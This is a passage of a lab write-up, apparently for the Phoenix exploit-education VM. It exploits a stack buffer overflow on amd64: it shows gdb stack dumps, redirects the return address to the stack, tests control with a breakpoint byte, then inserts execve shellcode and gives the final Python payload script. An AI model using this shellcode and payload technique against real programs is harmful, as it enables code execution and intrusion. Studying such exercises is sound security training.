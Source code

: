 Here my return address points back to the stack, to exactly the location where i placed some "/xcc" instruction, which are used by debuggers to set a breakpoint.

```
user@phoenix-amd64:/tmp$ python exploit.py > payload

(gdb) run < /tmp/payload
```

We then hit our breakpoint and the stack looks like this


```
(gdb) x/48wx $rsp
0x7fffffffe490:	0x41414141	0x42424242	0x43434343	0x44444444
0x7fffffffe4a0:	0xcccccccc	0x46464646	0x47474747	0x48484848
0x7fffffffe4b0:	0x49494949	0x4a4a4a4a	0x4b4b4b4b	0x4c4c4c4c
0x7fffffffe4c0:	0x4d4d4d4d	0x4e4e4e4e	0x4f4f4f4f	0x50505050
0x7fffffffe4d0:	0x51515151	0x52525252	0x53535353	0x54545454
0x7fffffffe4e0:	0x55555555	0x56565656	0x57575757	0x58585858
0x7fffffffe4f0:	0x59595959	0x615a5a5a	0x62616161	0x63626262
0x7fffffffe500:	0x64636363	0x65646464	0x66656565	0x67676666
0x7fffffffe510:	0x68686767	0x69696868	0xffffe4a0	0x00007fff
0x7fffffffe520:	0xffffe588	0x00007fff	0x00000000	0x00000001
0x7fffffffe530:	0x00000001	0x00000000	0xf7d8fd62	0x00007fff
0x7fffffffe540:	0x00000000	0x00000000	0xffffe580	0x00007fff
```

You can see the return address in this line: 0x7fffffffe510:	0x68686767	0x69696868	0xffffe4a0	0x00007fff  
Which will lead to us jumping here: 0x7fffffffe4a0:	0xcccccccc	0x46464646	0x47474747	0x48484848  

Lets continue the execution of the program

```
(gdb) c
Continuing.

Program received signal SIGTRAP, Trace/breakpoint trap.
0x00007fffffffe4a1 in ?? ()
```

Awesome. The CC instruction got executed. 



##### Getting shellcode to exploit the program

There is a lot of excellent shellcode for this out there on the Internet, so I am not going to bother with writing my own. 
"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"  

We replace the CC instruction from my PoC with the shellcode and trim our payload accordingly.
The adjusted version of my python script then looks like this:

```py
padding = "AAAABBBBCCCCDDDD\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05LLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZaaaabbbbccccddddeeeefffgggghhhhiii"
ret_address = "\xa0\xe4\xff\xff\xff\x7f" 
print(padding + ret_address)
```
